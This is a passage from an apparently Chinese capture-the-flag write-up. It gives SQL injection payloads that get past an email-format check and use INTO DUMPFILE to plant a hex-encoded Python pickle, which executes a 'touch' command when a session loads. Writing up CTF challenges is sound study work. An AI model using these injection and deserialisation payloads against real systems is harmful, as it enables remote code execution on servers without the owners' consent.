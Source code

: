 ```sql
select/**/0x63636F6D6D616E6473A6765746F7574707574A7030A2853225F5F696D706F72745F5F28276F7327292E706F70656E2827746F756368202F746D702F495F476F745F7468655F666C616727292E72656164282922A7031A747032A527033A2E/**/into/**/dumpfile/**/'/tmp/7a329ef9afb6bc7f1ff2a089c1732f3f'
```

后来发现上面找的注入点不能写文件,(没找到具体原因

在register处同样存在注入点:

下面的语句可以绕过Email()检测

```sql
a'/**/union/**/select/**/0x63636f6d6d616e6473a6765746f7574707574a7030a2853225f5f696d706f72745f5f28276f7327292e706f70656e2827746f756368202f746d702f495f476f745f7468655f666c616727292e72656164282922a7031a747032a527033a2e/**/into/**/dumpfile/**/'/tmp/0482f888c17a0d3ef4e14b28a38b9eaf'#@test.com
```

然后带着session访问index即可

> 写文件有点奇怪,同一个payload有时候能成功有时候不成功

## 后记

好题.